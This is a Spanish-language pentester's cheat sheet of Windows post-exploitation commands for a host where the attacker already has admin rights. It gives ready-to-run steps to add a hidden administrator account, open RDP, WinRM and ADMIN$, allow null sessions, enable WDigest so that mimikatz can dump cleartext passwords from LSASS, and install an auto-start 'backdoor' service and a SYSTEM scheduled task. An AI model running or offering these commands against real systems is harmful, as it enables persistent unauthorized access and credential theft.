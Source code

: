 - Saber si estamos ante cmd ó powershell: 
	```powershell
	(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
	```
- Comprobar arquitectura de Windows
	- Sin privilegios: 
		```powershell
		$env:PROCESSOR_ARCHITECTURE	
		```
	- Con privilegios
		```powershell
		(Get-CimInstance Win32_OperatingSystem).OSArchitecture
		```
- Convertir en archivo de texto, supongamos `infoMimikatz`, con formato grepeable correcto (a veces la extracción de mimikatz da problemas)
	```bash
	dos2unix infoMimikatz
	# si no funciona
	dos2unix -f infoMimikatz
	```
- Convertir a teclado en español
	```powershell
	Set-WinUserLanguageList -LanguageList es-ES -Force
	```

## Con acceso de administrador a un sistema Windows
### Crear un usuario persistente con permisos de administrador
- **Crear un usuario:**
    ```powershell
    net user pentester StrongP@ssword123 /add
    ```
- **Añadir el usuario al grupo de administradores:**
    ```powershell
    net localgroup Administrators pentester /add
    ```
### Habilitar RDP (Escritorio Remoto)
- Habilitar RDP con `nxc`
	```bash
	nxc smb $IP -u administrator -p pass123 -M rdp -o ACTION=enable
	```
- **Habilitar conexiones RDP:**
    ```powershell
    # Desde CMD
    reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
    # Desde powershell
    Set-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server' -Name "fDenyTSConnections" -Value 0

    ```
- **Configurar el Firewall para permitir tráfico RDP:**
    ```powershell
    netsh advfirewall firewall set rule group="remote desktop" new enable=yes
    ```
### Activar el Modo Admin Restricto (Restricted Admin Mode para RDP)
```powershell
reg add HKLM\System\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin /t REG_DWORD /d 0 /f
```
### Evitar restricciones con `LocalAccountTokenFilterPolicy`
Permite que las cuentas locales se autentiquen remotamente y conserven sus privilegios administrativos sin restricciones adicionales. Útil para herramientas como `psexec` o `impacket-psexec`, ya que elimina limitaciones predeterminadas que podrían bloquear RCE. 
```powershell
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```
### Habilitar y configurar `psexec` y herramientas basadas en SMB
Para operaciones administrativas avanzadas, como el uso de herramientas como `psexec`, **ADMIN$ debe estar habilitado**
- **Habilitar el servicio ADMIN$ (si está deshabilitado):**
    ```powershell
    sc config lanmanserver start= auto
    sc start lanmanserver
    ```
- **Abrir ADMIN$ para autenticación remota:**
    ```powershell
    net share ADMIN$=C:\Windows /grant:Administrators,FULL
    ```
### Habilitar PowerShell Remoting
Habilita WinRM automáticamente
```powershell
Enable-PSRemoting -Force
```
### Habilitar WinRM (para autenticación remota con PowerShell y herramientas como Evil-WinRM)
```powershell
winrm quickconfig -force
```
### Configurar autenticación sin contraseña (null sessions)
- **Deshabilitar restricciones de null sessions:**
    ```powershell
    reg add "HKLM\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters" /v NullSessionShares /t REG_MULTI_SZ /d "C$\IPC$" /f
    ```
- **Opcional: Permitir null sessions a nivel de usuario:**
    ```powershell
    reg add "HKLM\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters" /v RestrictNullSessAccess /t REG_DWORD /d 0 /f
    ```

### Habilitar autenticación WDigest (credenciales en texto claro en memoria)
Configura el sistema para almacenar credenciales en texto plano en memoria (LSASS). Si tras habilitar WDigest un usuario se conecta autentica en el sistema, tras volcar la sam, podremos extraer credenciales en texto claro con `sekurlsa::minidump lsass.dmp sekurlsa::logonpasswords`
```powershell
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
```
### Configurar un servicio persistente con acceso remoto
```powershell
sc create backdoor binpath= "cmd.exe /k start cmd.exe" start= auto
```
### Habilitar credenciales almacenadas para acceso remoto
- Permite el uso de credenciales almacenadas para establecer conexiones remotas
	```powershell
	reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v DisableDomainCreds /t REG_DWORD /d 0 /f
	```
- Después de esta configuración se pueden utilizar comandos como 
	```powershell
	cmdkey /add:target_machine /user:admin_user /pass:password123
	```
	Y conectarnos al sistema de manera remota sin tener que proporcionar credenciales nuevamente (facilita escenarios en los que el Double Hop puede limitar el acceso)
### Configurar una tarea programada maliciosa
- **Crear una tarea:**
    ```powershell
    schtasks /create /tn "PentestTask" /tr "cmd.exe /c whoami > C:\users\public\whoami.txt" /sc onlogon /ru SYSTEM
    ```
